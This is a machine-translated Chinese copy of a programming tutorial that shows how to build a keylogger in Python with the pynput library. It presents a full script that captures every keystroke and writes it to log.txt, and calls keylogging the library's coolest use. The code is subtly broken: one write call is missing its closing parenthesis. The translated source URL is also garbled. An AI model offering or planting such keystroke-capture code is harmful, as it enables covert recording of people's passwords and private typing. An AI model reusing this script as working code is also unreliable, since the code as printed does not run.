 # 如何用 pynput 做一个键盘记录程序？

> 原文:[https://www . geeksforgeeks . org/如何使用-pyn put-to-make-a-keylogger/](https://www.geeksforgeeks.org/how-to-use-pynput-to-make-a-keylogger/)

**先决条件:** [Python 编程语言](https://www.geeksforgeeks.org/python-programming-language/)
包 **pynput.keyboard** 包含用于控制和监控键盘的类。 **pynput** 是 Python 的库，可以用来捕捉键盘输入，最酷的用途在于制作键盘记录器。键盘记录器的代码如下。

### 需要的模块

**pynput:** 要安装 pynput，请在终端中键入以下命令。

```
 pip install pynput 
```

下面是实现:

## 蟒蛇 3

```
# keylogger using pynput module

import pynput
from pynput.keyboard import Key, Listener

keys = []

def on_press(key):

    keys.append(key)
    write_file(keys)

    try:
        print('alphanumeric key {0} pressed'.format(key.char))

    except AttributeError:
        print('special key {0} pressed'.format(key))

def write_file(keys):

    with open('log.txt', 'w') as f:
        for key in keys:

            # removing ''
            k = str(key).replace("'", "")
            f.write(k

            # explicitly adding a space after
            # every keystroke for readability
            f.write(' ')

def on_release(key):

    print('{0} released'.format(key))
    if key == Key.esc:
        # Stop listener
        return False

with Listener(on_press = on_press,
              on_release = on_release) as listener:

    listener.join()
```

**输出:**

![python-keylogger-pyinput](img/aea8cbb2932c06a630fab54e8e1e0b82.png)